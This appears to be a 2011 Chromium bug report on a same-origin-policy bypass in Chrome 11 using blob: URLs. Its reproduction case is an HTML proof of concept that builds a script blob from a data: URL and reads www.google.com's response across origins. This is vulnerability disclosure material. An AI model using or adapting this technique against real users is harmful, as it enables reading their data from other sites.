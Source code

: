 # bypass SOP with `blob:`

#### Mar 2 2011

### VULNERABILITY DETAILS

???

### VERSION

Chrome Version: 11 stable (Windows XP SP3)

### REPRODUCTION CASE

PoC:

```html
<a href="data:text/html,<script>var builder = new BlobBuilder();builder.append(%22%3Cscript%3Ex%20%3D%20new%20XMLHttpRequest%28%29%3Bx.open%28%27get%27%2C%20%27http%3A//www.google.com%27%2C%20false%29%3Bx.send%28%29%3Balert%28x.responseText%29%3B%3C%5C/script%3E%22);var blob = builder.getBlob('text/html');var url = window.webkitURL.createObjectURL(blob);location=url</script>">test</a>
```

Link: https://bugs.chromium.org/p/chromium/issues/detail?id=74653
